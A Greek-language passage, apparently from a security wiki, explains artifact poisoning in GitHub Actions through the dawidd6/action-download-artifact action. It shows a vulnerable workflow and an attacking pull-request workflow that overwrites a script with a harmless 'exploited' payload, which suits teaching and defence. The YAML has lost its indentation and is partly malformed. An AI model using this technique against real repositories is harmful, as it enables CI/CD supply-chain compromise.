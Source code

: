 Για παράδειγμα ([**αυτό**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability-0) και [**αυτό**](https://www.legitsecurity.com/blog/-how-we-found-another-github-action-environment-injection-vulnerability-in-a-google-project)), φανταστείτε μια ροή εργασίας που εμπιστεύεται ένα ανεβασμένο artifact για να αποθηκεύσει το περιεχόμενό του μέσα στη μεταβλητή env **`GITHUB_ENV`**. Ένας επιτιθέμενος θα μπορούσε να ανεβάσει κάτι τέτοιο για να το συμβιβάσει:

<figure><img src="../../../images/image (261).png" alt=""><figcaption></figcaption></figure>

### Ευάλωτες Τρίτες Ενέργειες Github

#### [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact)

Όπως αναφέρθηκε σε [**αυτή την ανάρτηση στο blog**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks), αυτή η Github Action επιτρέπει την πρόσβαση σε artifacts από διαφορετικές ροές εργασίας και ακόμη και αποθετήρια.

Το πρόβλημα είναι ότι αν η παράμετρος **`path`** δεν έχει οριστεί, το artifact εξάγεται στον τρέχοντα κατάλογο και μπορεί να αντικαταστήσει αρχεία που θα μπορούσαν να χρησιμοποιηθούν αργότερα ή ακόμη και να εκτελούνται στη ροή εργασίας. Επομένως, αν το Artifact είναι ευάλωτο, ένας επιτιθέμενος θα μπορούσε να το καταχραστεί για να συμβιβάσει άλλες ροές εργασίας που εμπιστεύονται το Artifact.

Παράδειγμα ευάλωτης ροής εργασίας:
```yaml
on:
workflow_run:
workflows: ["some workflow"]
types:
- completed

jobs:
success:
runs-on: ubuntu-latest
steps:
- uses: actions/checkout@v2
- name: download artifact
uses: dawidd6/action-download-artifact
with:
workflow: ${{ github.event.workflow_run.workflow_id }}
name: artifact
- run: python ./script.py
with:
name: artifact
path: ./script.py
```
Αυτό θα μπορούσε να επιτεθεί με αυτό το ροή εργασίας:
```yaml
name: "some workflow"
on: pull_request

jobs:
upload:
runs-on: ubuntu-latest
steps:
- run: echo "print('exploited')" > ./script.py
- uses actions/upload-artifact@v2
with:
name: artifact
path: ./script.py
```
---
